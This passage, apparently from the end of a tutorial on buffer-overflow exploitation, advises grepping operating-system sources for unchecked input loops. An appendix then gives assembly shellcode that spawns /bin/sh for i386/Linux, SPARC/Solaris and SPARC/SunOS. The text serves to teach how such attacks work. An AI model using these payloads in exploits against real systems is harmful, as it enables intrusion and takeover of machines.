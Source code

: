 \documentclass[12pt]{article}
\begin{document}
or some other delimiter is reached. This type of construct usually uses one of these functions: getc(), fgetc(), or 

getchar(). If there is no explicit checks for overflows in the while loop, such programs are easily exploited. To 

conclude, grep(1) is your friend. The sources for free operating systems and their utilities is readily available. 

This fact becomes quite interesting once you realize that many comercial operating s ystems utilities where 

derived from the same sources as the free ones. Use the source d00d.

\appendix
\appendixpage
\section{Shellcode for Different Operating}

\subsection{Systems/Architectures}


\begin{lstlisting}[caption=i386/Linux]
jmp    0x1f
popl   %esi
movl   %esi,0x8(%esi)
xorl   %eax,%eax
movb   %eax,0x7(%esi)
movl   %eax,0xc(%esi)
movb   $0xb,%al
movl   %esi,%ebx
leal   0x8(%esi),%ecx
leal   0xc(%esi),%edx
int    $0x80
xorl   %ebx,%ebx
movl   %ebx,%eax
inc    %eax
int    $0x80
call   -0x24
.string \"/bin/sh\"
\end{lstlisting}


\begin{lstlisting}[caption=SPARC/Solaris]
sethi   0xbd89a, %l6
or      %l6, 0x16e, %l6
sethi   0xbdcda, %l7
and     %sp, %sp, %o0
add     %sp, 8, %o1
xor     %o2, %o2, %o2
add     %sp, 16, %sp
std     %l6, [%sp - 16]
st      %sp, [%sp - 8]
st      %g0, [%sp - 4]
mov     0x3b, %g1
ta      8
xor     %o7, %o7, %o0
mov     1, %g1
ta      8
\end{lstlisting}

\begin{lstlisting}[caption=SPARC/SunOS]
sethi   0xbd89a, %l6
or      %l6, 0x16e, %l6
sethi   0xbdcda, %l7
and     %sp, %sp, %o0
add     %sp, 8, %o1
xor     %o2, %o2, %o2
add     %sp, 16, %sp
std     %l6, [%sp - 16]
st      %sp, [%sp - 8]
st      %g0, [%sp - 4]
mov     0x3b, %g1
mov     -0x1, %l5
ta      %l5 + 1
xor     %o7, %o7, %o0
mov     1, %g1
ta      %l5 + 1
\end{lstlisting}
\end{document}
